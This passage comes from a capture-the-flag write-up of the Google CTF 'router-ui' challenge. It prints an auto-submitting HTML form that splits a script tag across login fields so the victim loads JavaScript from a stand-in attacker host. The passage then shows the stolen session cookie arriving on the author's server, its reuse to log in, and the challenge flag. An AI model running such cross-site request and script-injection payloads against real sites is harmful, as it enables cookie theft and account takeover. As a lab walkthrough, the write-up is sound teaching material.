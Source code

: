 Next up, we've to figure out the link to send to Wintermuted such that clicking the link has the same effect as POSTing the username and password as seen above to `https://router-ui.web.ctfcompetition.com/login` and triggering the bad JS, without any user interaction.

This is how it looks like.

<div class="filename"><span>index.html</span></div>
```html
<html>
  <body>
    <form action="https://router-ui.web.ctfcompetition.com/login" method="post">
      <input type="text" name="username" value='<script src="https:'>
      <input type="password" name="password" value='www.badguy.com/bad.js"></script>'>
      <button type="submit">Submit</button>
    </form>
    <script>document.forms[0].submit();</script>
  </body>
</html>
```

Now that we've set up the stage, it's time to test it out!

{% include image.html image_alt="Email" image_src="/assets/images/posts/google-ctf-beginners-quest-part-2/4689404d.png" %}

Once we've sent the email, Wintermuted will click on the link because who doesn't like cats?

{% include image.html image_alt="Token" image_src="/assets/images/posts/google-ctf-beginners-quest-part-2/d755adf7.png" %}

On the web server I control (I'm using Python SimpleHTTPServer module), we can see the HTTP requests that Wintermuted makes. And what do you see?

```
flag=Try%20the%20session%20cookie;%20session=Avaev8thDieM6Quauoh2TuDeaez9Weja
```

We see two cookies: `flag` and `session`. Let's pop them into the cookie manager.

{% include image.html image_alt="flag" image_src="/assets/images/posts/google-ctf-beginners-quest-part-2/e5ea6bdc.png" %}

{% include image.html image_alt="session" image_src="/assets/images/posts/google-ctf-beginners-quest-part-2/8a3866db.png" %}

Now, we are able to login to `https://router-ui.web.ctfcompetition.com/`.

{% include image.html image_alt="web-router-ui" image_src="/assets/images/posts/google-ctf-beginners-quest-part-2/ac446f17.png" %}

The flag is in the password `<input>` field.

{% include image.html image_alt="flag" image_src="/assets/images/posts/google-ctf-beginners-quest-part-2/07dbbcdf.png" %}

The flag is `CTF{Kao4pheitot7Ahmu}`.

### Firmware
